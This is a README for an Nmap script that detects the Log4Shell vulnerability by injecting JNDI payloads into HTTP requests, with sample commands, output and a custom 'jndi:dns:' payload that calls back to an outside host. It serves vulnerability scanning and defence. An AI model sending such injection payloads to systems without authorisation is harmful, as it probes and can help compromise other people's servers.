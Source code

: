 ## log4shell.nse
Injects a Huntress/CanaryTokens/custom log4shell payload in HTTP requests described by JSON templates.
Results expire after 30 minutes.

**Sample usage**
```
$ nmap --script log4shell.nse --script-args id=<uuid>,mode=huntress -p 80 localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2021-12-11 12:43 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000059s latency).

PORT   STATE SERVICE
80/tcp open  http
|_log4shell: Check https://log4shell.huntress.com/view/<uuid> for results.

Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds
```

**Options**
* `id`: Unique id linked with this scan.
* `mode`: Payload template, one of `huntress`, `canary_tokens` or `custom`.
* `payload`: Specify a custom payload, should include `%s` where the unique id related to this scan will be replaced.


**Examples**

* Huntress:
```
$ nmap --script log4shell.nse --script-args=id=<hash>,mode=huntress -p http* 127.0.0.1
```

* CanaryTokens:
```
$ nmap --script log4shell.nse --script-args=id=<hash>,mode=canary_tokens -p http* 127.0.0.1
```

* Custom payload:
```
$ nmap --script log4shell.nse --script-args=id=<hash>,mode=custom,payload="jndi:dns:/%s.tracker.com" -p http* 127.0.0.1
```

References:
- https://log4shell.huntress.com/
